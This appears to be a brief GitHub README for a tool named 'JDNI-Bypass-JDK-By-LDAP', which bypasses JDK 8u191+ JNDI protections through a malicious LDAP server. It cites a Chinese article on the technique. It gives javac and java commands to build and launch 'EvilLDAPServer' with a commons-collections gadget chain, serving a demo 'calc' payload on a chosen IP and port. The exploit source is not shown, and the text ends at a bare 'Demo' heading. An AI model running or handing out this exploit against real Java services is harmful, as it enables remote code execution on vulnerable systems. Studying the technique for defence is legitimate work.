

# JDNI-Bypass-JDK-By-LDAP

参考：
- [8u191之后的JNDI注入(LDAP)](https://mp.weixin.qq.com/s/0LePKo8k7HDIjk9ci8dQtA)

```bash
javac -encoding GBK -g -cp "commons-collections-3.1.jar;unboundid-ldapsdk-3.1.1.jar" EvilLDAPServer.java
java -cp ".;commons-collections-3.1.jar;unboundid-ldapsdk-3.1.1.jar" EvilLDAPServer 192.168.85.1 10388 "calc"
```

Demo

